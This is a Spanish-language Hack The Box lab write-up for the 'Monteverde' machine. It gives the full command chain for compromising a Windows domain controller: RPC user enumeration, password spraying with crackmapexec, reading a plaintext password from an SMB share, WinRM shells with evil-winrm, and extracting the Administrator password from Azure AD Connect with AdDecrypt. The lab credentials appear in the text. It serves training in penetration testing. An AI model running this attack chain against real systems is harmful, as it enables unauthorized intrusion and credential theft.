

# Monteverde

`Monteverde` es una máquina Windows mediana que cuenta con `Azure AD Connect`. Se enumera el dominio y se crea una lista de usuarios. A través de la pulverización de contraseñas, se descubre que la cuenta de servicio `SABatchJobs` tiene el nombre de usuario como contraseña. Con esta cuenta de servicio, es posible enumerar los recursos compartidos de SMB en el sistema y se descubre que el recurso compartido `$users` es legible para todo el mundo.

Se encuentra un archivo XML utilizado para una cuenta de `Azure AD` dentro de una carpeta de usuario y contiene una contraseña. Debido a la reutilización de contraseñas, podemos conectarnos al controlador de dominio como `mhope` mediante `WinRM`. La enumeración muestra que `Azure AD Connect` está instalado. Es posible extraer las credenciales de la cuenta que replica los cambios de directorio en Azure (en este caso, el administrador de dominio predeterminado).

<figure><figcaption></figcaption></figure>

## Reconnaissance

Proceremos a realizar un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina Monteverde.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.172 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio con el cual nos enfrentamos a través del siguiente comando.

```bash
ldapsearch -x -H ldap://10.10.10.172 -s base | grep defaultNamingContext
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep megabank.local
```

<figure><figcaption></figcaption></figure>

## Users Enumeration

### RCP Enumeration

Procederemos a realizar una enumeración utilizando **rpcclient** conectándonos en una null session y enumerando a los usuarios. Comprobamos que tenemos acceso y procederemos a que a través de expresiones regulares formatear la salida para que solamente nos muestre los nombres de usuario. Guardaremos el contenido en el archivo "users".


```bash
rpcclient -U "" 10.10.10.172 -N -c enumdomusers

rpcclient -U "" 10.10.10.172 -N -c enumdomusers | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users

catnp users
```


<figure><figcaption></figcaption></figure>

## ASREPRoast Attack (GetNPUsers.py) - \[FAILED]

Teniendo una lista de nombres de usuarios válidos, nos planteamos en realizar un **ASREPRoast Attack**, pero no obtenemos ningún resultado, debido que ningún usuario tiene el (DONT\_REQ\_PREAUTH) de Kerberos.

```bash
GetNPUsers.py -no-pass -usersfile users megabank.local/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## Credential Brute Force - Crackmapexec

Procederemos a realizar un ataque de fuerza bruta utilizando **crackmapexec** para que valide por SMB si el listado de usuarios que le pasamos, alguno tiene de contraseña el mismo nombre de usuario. Comprobamos que obtenemos que el usuario "SABatchJobs" tiene de contraseña su mismo nombre de usuario.

```bash
crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Comprobaremos con **netexec** de que se puede acceder al SMB con las credenciales encontradas.

```bash
netexec smb 10.10.10.172 -u SABatchJobs -p 'SABatchJobs' 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Guardaremos las credenciales obtenidas en el archivo "credentials.txt".

```bash
catnp credentials.txt
```

<figure><figcaption></figcaption></figure>

## SMB Enumeration

Procederemos a listar todos los recursos compartidos que tenemos acceso con el usuario "SABatchJobs". Comprobamos que tenemos acceso a una serie de recursos.

```bash
netexec smb 10.10.10.172 -u SABatchJobs -p 'SABatchJobs' --shares
```

<figure><figcaption></figcaption></figure>

Procederemos a conectarnos al recurso compartido "users$" y nos descargaremos todo el contenido del recurso.

```bash
smbclient //10.10.10.172/users$ -U 'SABatchJobs%SABatchJobs'
```

<figure><figcaption></figcaption></figure>

Comprobaremos que dentro del recurso compartido había un archivo llamado "azure.xml". Revisando el contenido de dicho archivo, aparece una contraseña en texto plano.

```bash
catnp mhope/azure.xml
```

<figure><figcaption></figcaption></figure>

## Credential Brute Force - Crackmapexec

Procederemos a realizar un ataque de fuerza bruta a todo el listado de usuarios que disponemos para verificar si uno de ellos le corresponde la contraseña encontrada en el archivo.xml.

Finalmente comprobamos que el usuario "mhope" su correspondiente credencial es la encontrada.


```bash
crackmapexec smb 10.10.10.172 -u users -p '4n0therD4y@n0th3r$' --continue-on-success 2>/dev/null
```


<figure><figcaption></figcaption></figure>

Guardaremos las nuevas credenciales en "credentials.txt"

```bash
catnp credentials.txt
```

<figure><figcaption></figcaption></figure>

## Shell Over WinRM

Probaremos con **netexec** de probar con el usuario "mhope" y la contraseña encontrada de ver si tiene acceso al WinRM. Comprobamos que nos reporta como **Pwn3d**. Por lo tanto, nos indica que efectivamente podemos acceder al WinRM con dichas credenciales.

```bash
netexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$' 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Probaremos de acceder con **evil-winrm** y las credenciales que disponemos y comprobamos del acceso y de la flag de **user.txt**.

```bash
evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$' 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Abusing Azure Admins Group - Obtaining the administrator's password

Teniendo acceso, comprobaremos de qué tipo de permisos dispone el usuario, en este caso, ninguno que nos pueda servir para realizar un PrivEsc.

Revisando los usuarios a los que pertenece el usuario con el que estamos "mhope" nos percatamos de que forma parte del grupo "Azure Admins", veremos si este grupo nos puede servir para explotarlo.

```bash
whoami /priv

net user mhope
```

<figure><figcaption></figcaption></figure>

Accederemos a la raíz C:\ y comprobaremos dentor de "C:\Program Files" de que existe un directorio llamado "Azure AD Sync". Esto se puede llegar a convertir un vector para poder elevar nuestros privilegios dependiendo de la versión que se ejecute, etc.

```bash
cd C:\

cd Progra~1

dir
```

<figure><figcaption></figcaption></figure>

Buscando sobre exploit sobre "Microsoft Azure AD Sync" hemos encontrado un blog donde explica como intentar explotar dicha vulnerabilidad. [Azure AD Connect Database Exploit PrivEsc](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)

Nos descargaremos el [AdDecrypt](https://github.com/VbScrub/AdSyncDecrypt/releases) en nuestra Kali, moveremos el contenido a nuestro directorio actual de trabajo, lo descomprimiremos y subiremos el .exe y el .dll al equipo comprometido a través de **evil-winrm**.

```bash
mv /home/kali/Descargas/AdDecrypt.zip .

unzip AdDecrypt.zip

ls -l

upload /home/kali/Desktop/HackTheBox/Windows/Monteverde/content/AdDecrypt.exe

upload /home/kali/Desktop/HackTheBox/Windows/Monteverde/content/mcrypt.dll
```

<figure><figcaption></figcaption></figure>

Nos dirigiremos al directorio mencionado y procederemos a ejecutar el "AdDecrypt.exe" que lo disponemos en C:\Windows\Temp y de argumento le pasaremos -FullSQL

Comprobamos que nos muestra la contraseña del usuario "Administrator".

```bash
cd "C:\Program Files\Microsoft Azure AD Sync\Bin"

C:\Windows\Temp\AdDecrypt.exe -FullSQL
```

<figure><figcaption></figcaption></figure>

Probaremos con **netexec** de validar que el usuario Administrator y las credenciales encontradas se pueden conectar al WinRM. Comprobamos que nos aparece como _Pwn3d_.

```bash
netexec winrm 10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!' 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Procederemos a conectarnos con **evil-winrm** al equipo mencionado con las credenciales del usuario Administrator y comprobaremos que ganamos acceso y localizamos la flag de **root.txt**.

```bash
evil-winrm -i 10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!' 2>/dev/null
```

<figure><figcaption></figcaption></figure>
